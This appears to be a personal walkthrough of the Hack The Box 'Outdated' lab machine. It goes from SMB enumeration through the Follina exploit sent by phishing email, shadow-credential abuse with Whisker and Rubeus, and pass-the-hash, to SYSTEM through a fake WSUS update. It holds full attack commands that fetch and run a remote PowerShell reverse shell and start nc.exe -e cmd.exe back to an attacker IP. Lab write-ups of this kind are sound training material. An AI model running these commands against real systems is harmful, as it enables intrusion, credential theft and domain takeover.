HTB: Outdated

Shell as btables
Enum4Linux
Domain Information via RPC for 10.10.11.175 |
===================================================
[+] Domain: OUTDATED
[+] Domain SID: S-1-5-21-4089647348-67660539-4016542185
[+] Membership: domain member
We can connect to smb anonymously and download a pdf file containing a few CVEs that they “need to patch”
CVE-2022-30190
CVE ID
Type
Exec CodePublish Date
2022-06-01Score
9.3Access
RemoteComplexity
Medium
Description
Microsoft Windows Support Diagnostic Tool (MSDT) Remote Code
Execution Vulnerability.
Windows Print Spooler Elevation of Privilege Vulnerability.
CVE-2022-30138 Exec Code2022-05-187.2LocalLow CVE-2022-30129 Exec Code 2022-05-106.8RemoteMediumVisual Studio Code Remote Code Execution Vulnerability.
CVE-2022-29130Exec Code
2022-05-109.3RemoteMediumWindows LDAP Remote Code Execution Vulnerability.
CVE-2022-29110Exec Code2022-05-109.3RemoteMediumMicrosoft Excel Remote Code Execution Vulnerability

Using CVE 2022 30190 POC from john hammond
He has a reverse shell function that I could not get working. When specifying my own command I can get a shell. I did have to look up a hint for this part as the reverse shell would not work.
python3 follina.py -c "IEX(IWR http://10.10.14.8:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 443" -i tun0 -p 80Then send the email
swaks --to itsupport@outdated.htb --from "0xdf@0xdf.htb" --header "Subject: Internal web app" --body "http://10.10.14.8/index.html"
We get a shell

Finding btable's password in a check mail script.
type check_mail.ps1
$user = 'btables@outdated.htb'
$pass = 'GHKKb7GEHcccdCT8tQV2QwL3'
btables:GHKKb7GEHcccdCT8tQV2QwL3
Shell as Sflowers
IPs found
172.16.20.20 - us
172.16.20.1 - dc

We can exploit AddKeyCredentialLink with the Sflowers user

This command shows us a certificate we can use to request for a TGT but i learned this cannot be used in a full ConPtyShell no matter how many times I tried rubeus would give an error, switching to a normal NC shell worked right away.
.\Whisker.exe add /target:SFLOWERS.\Rubeus.exe asktgt /user:SFLOWERS /certificate:
ntlm for sflowers
1FCDB1F6015DCB318CC77BB2BDA14DB5
We can now remote in and get the user flag
evil-winrm -i 10.10.11.175 -u SFLOWERS -H 1FCDB1F6015DCB318CC77BB2BDA14DB5Shell as Administrator
We are WSUS administrators which is new to me

Winpeas shows this as well

We can use this tool to exploit this
https://github.com/nettitude/SharpWSUS
First we create a fake windows update
.\SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:" -accepteula -s -d c:\programdata\nc.exe -e cmd.exe 10.10.14.8 443" /title:"CVE-2022-30190"Then approve the update and wait for it to install which gives us a shell
.\SharpWSUS.exe approve /updateid:18fcb935-b2e3-4c1d-a2bd-b977a35784cb /computername:DC.outdated.htb /groupname:"Group Name"

All POCs showed adding a user to the machine rather than using netcat and no matter how many times i tried it would not add a user to the admins group. I also tried using a shell with msfvenom but that also failed. For whatever reason only netcat worked. This machine is rated medium but is probably one of the hardest machines ive done.
